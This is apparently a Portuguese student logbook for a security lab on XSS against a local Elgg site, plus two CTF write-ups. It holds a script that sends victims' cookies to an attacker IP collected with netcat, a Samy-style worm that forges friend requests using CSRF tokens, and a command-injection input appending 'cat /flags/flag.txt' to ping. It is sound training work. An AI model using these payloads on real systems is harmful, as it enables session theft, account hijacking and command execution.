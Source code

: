 # LOGBOOK 10

### Lab Environment Setup

Completamos todos os pontos presentes no guião deste lab, isto é, DNS Setup, Container Setup and Commands, Elgg Web Application.

### Preparation

Neste lab vamos precisar de contruir HTTP requests. Para conseguirmos perceber como é um HTTP request em Elgg aceitável, vamos necessitar de poder capturar e analizar HTTP requests. Podemos utilizar uma extensão do Firefox chamada "HTTP Header Live". 
Tivemos que nos ambientar a esta ferramenta, para posteriomente avançar no guião.

## Task 1

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de forma que quando outro utilizador visualizar o perfil, o programa JavaScript seja executado e uma janela de alerta seja exibida.

O código JavaScript `<script>alert("XSS");</script>` exibe a janela de alerta. Os resultados estão no finala desta secção.

Com o seguinte código exemplo conseguimos referir um ficheiro .js para executar o código nele contido. Isto é útil para quando temos um programa Javascript de maior dimensão, ao contrário do exemplo anterior.
```
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```

![](https://i.imgur.com/obINJpV.png)

![](https://i.imgur.com/LQACwXx.png)



## Task 2

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de modo que, quando outro utilizador visualizar o perfil, os cookies do utilizador sejam exibidos na janela de alerta.

Podemos atingir este objetivo introduzindo no campo "description" o seguinte código Javascript:
```
<script>alert(document.cookie);</script>
```

![](https://i.imgur.com/NDacdlJ.png)

![](https://i.imgur.com/5WBiQOO.png)

## Task 3

Na tarefa anterior, o código JavaScript malicioso escrito pelo invasor pode imprimir os cookies do utilizador, mas apenas o utilizador pode ver os cookies, não o invasor. Nesta tarefa, pretendemos que o código JavaScript envie os cookies para o invasor.

Para conseguirmos fazer isto precisamos que o programa Javascript envie um HTTP request para o atacante, com as cookies anexados.
Podemos usar uma tag img com o atributo src a apontar para a máquina do atacante. O browser vai tentar carregar a imagem, mas em vez disso vai fazer um pedido GET à máquna do invasor.

O seguinte código JavaScript envia os cookies para a porta 5555 da máquina do invasor (com endereço IP 10.9.0.1), onde o invasor possui um servidor TCP pronto a ouvir na mesma porta.
```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

![](https://i.imgur.com/w87IOAZ.png)

Um programa bastante utilizado por invasores é o netcat (ou nc) , que, se executado com a opção "-l", torna-se um servidor TCP que escuta uma conexão na porta especificada. Este programa de servidor basicamente imprime tudo o que é enviado pelo cliente e envia para o cliente tudo o que é digitado pelo utilizador executando o servidor. Com o comando `$ nc -lknv 5555` conseguimos escutar na porta 5555.

A opção -l é usada para especificar que o nc deve escutar uma conexão de entrada em vez de iniciar uma conexão com um host remoto. A opção -nv é usada para que o nc forneça uma saída mais detalhada. A opção -k significa que quando uma conexão for concluída, deve ouvir outra.

Utilizamos o comando netcat que referimos em cima para ouvir todos os request feitos por utilizadores que visitaram o nosso perfil. Esses requests contêm os cookies do utilizador, como pode ser visto em baixo:

![](https://i.imgur.com/qWdb0cf.png)


## Task 4

Nesta e na próxima tarefa, pretendemos realizar um ataque semelhante ao que Samy Worm fez ao MySpace em 2005. O objetivo é escrever um worm XSS que adiciona Samy como amigo a qualquer outro utilizador que visite a página de Samy.

Podemos adicionar Samy como amigo normalmente e, com a extensão HTTP Header Live, podemos descobrir como um HTTP request de amigo é codificado.

![](https://i.imgur.com/Mu1WEtN.png)

Utilizando esta informação, podemos criar um script que, ao ser executado, forja uma solicitação que adiciona Samy como amigo ao utilizador autenticado.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Colocamos este script no campo "About me" para ser executado por um utilizador quando este entrar no nosso perfil.

![](https://i.imgur.com/G0dju90.png)

![](https://i.imgur.com/28hoQiI.png)

Antes de visitar o perfil do Samy:

![](https://i.imgur.com/qoYQlQW.png)

Depois de visitar o perfil do Samy:

![](https://i.imgur.com/4VcqtK0.png)


#### Question 1 - Explain the purpose of Lines ➀ and ➁, why are they needed?

As linhas ➀ e ➁, marcadas no script da secção 4, servem para enviar o token elgg no request forjado para que o servidor avalie o request como um request válido do utilizador. Estes tokens servem para prevenir Cross Site Request Forgery.

#### Question 2 - If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Um ataque bem-sucedido não pode ser iniciado, pois o modo Editor filtra os caracteres especiais HTML e não podemos editar o conteúdo HTML interno do campo. Portanto, injetar qualquer script no campo "About me" não é possível, pois não podemos enviar a tag < script > no perfil.

# CTFs

## Desafio 1

Depois de analisar o formulário, apercebemo-nos que este é vulnerável a XSS. Portanto, para obter a flag, inserimos no formulário um script que faz com que o botão "Give the flag" que estava desativado seja acionado e, assim, o administrador responde ao pedido e a flag aparece.

![](https://i.imgur.com/D3z5syb.png)

![](https://i.imgur.com/woPZvSW.png)

![](https://i.imgur.com/iOP5gSy.png)

## Desafio 2

Ao analisar o servidor web, conseguimos identificar que o comando ping está a ser implementado pelo servidor.

``` ping [options] hostname or IP address ```

O ping é um utilitário linux que pode ser usado para verificar se uma rede está presente e se um host pode ser acessado.

Como podemos ver na imagem seguinte, o comando ping é executado no endereço IP inserido (127.0.0.1).

![](https://i.imgur.com/R3XKlos.png)

 Caso se insiram argumentos inválidos, o ping não é executado e o site não produz resposta.

![](https://i.imgur.com/btiUYtY.png)

Quando injetamos o código, este é o código que na realidade é executado:

``` ping 127.0.0.1; cat /flags/flag.txt ```

Ou seja, estão a ser executados dois comandos diferentes da shell. O segundo comando imprime a flag.

![](https://i.imgur.com/QZANr3J.png)

![](https://i.imgur.com/Ygwjiz0.png)

